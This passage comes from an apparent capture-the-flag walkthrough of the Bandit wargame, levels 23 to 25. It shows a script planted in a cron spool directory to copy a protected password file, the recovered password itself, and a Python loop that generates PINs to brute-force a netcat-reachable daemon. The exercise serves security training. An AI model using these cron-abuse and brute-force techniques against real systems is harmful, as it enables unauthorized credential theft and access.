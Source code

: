 Which mean that all script in the `/var/spool/bandit24` will be executed.
Now, we can create our own script that will get us the password, make it executable and copy it where the cronjob can see and execute it:

	bandit23@melinda:~$ cat > /tmp/password.sh
	#!/bin/bash

	cat /etc/bandit_pass/bandit24 > /tmp/bandit24_password
	bandit23@melinda:~$ chmod +x /tmp/password.sh
	bandit23@melinda:~$ cp /tmp/password.sh /var/spool/bandit24/

Finally, let's checkout the resulting file:

	bandit23@melinda:~$ cat /tmp/bandit24_password
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

Now we have access to **bandit24** using the password `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`.

## Level 24 ➡ Level 25
> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

Let's first create a file containing all possible combinations by writing a python script:

	bandit24@melinda:~$ python3
	Python 3.4.3 (default, Sep 14 2016, 12:36:27) 
	[GCC 4.8.4] on linux
	Type "help", "copyright", "credits" or "license" for more information.
	>>> with open("/tmp/pins", "w") as f:
	...     for pin in range(10000):
	...         f.write("UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ {:04}\n".format(pin))

If we now inspect the file, we can see that the pattern is as we want it to be:

	bandit24@melinda:~$ cat /tmp/pins
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0004
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0005
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0006
	--- LINES OMITTED ---
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9994
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9995
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9996
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9997
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9998
	UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9999

This file can the be used as input to `nc` such that each line of that file is sent through netcat.
But that will generate a very large amount of data to skim through, so we can use `grep` to search for **Correct**:

